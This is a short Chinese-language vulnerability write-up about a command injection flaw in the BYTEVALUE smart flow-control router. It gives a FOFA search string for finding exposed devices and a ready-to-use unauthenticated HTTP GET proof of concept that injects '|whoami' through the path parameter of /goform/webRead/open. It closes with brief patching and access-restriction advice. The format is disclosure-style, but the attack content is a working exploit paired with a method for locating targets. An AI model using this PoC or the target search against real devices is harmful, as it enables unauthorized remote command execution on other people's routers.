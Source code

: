 
# 百为智能流控路由器 RCE漏洞复现

### 0x01 产品简介

 BYTEVALUE 百为流控路由器是一款追求带宽利用率的多功能路由器。

### 0x02 漏洞概述

百为智能流控路由器 /goform/webRead/open 路由的 ?path 参数存在有回显的命令注入漏洞,未经身份认证的攻击者可以利用此漏洞执行任意指令，获取服务器权限。

### 0x03 复现环境

FOFA：app="BYTEVALUE-智能流控路由器"

![](assets/1701678113-61d12998218e2a22e28d68b2242ac63a.png)

### 0x04 漏洞复现 

PoC

```cobol
GET /goform/webRead/open/?path=|whoami HTTP/1.1
Host: your-ip
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
```

![](assets/1701678113-c083227c4df6f7d30c6d3388e64664ce.png)

### 0x05 修复建议

目前官方已提供解决方案，请关注厂商主页更新：http://www.bytevalue.com/

通过防火墙等安全设备设置访问策略，设置白名单访问。

如非必要，禁止公网访问该系统。
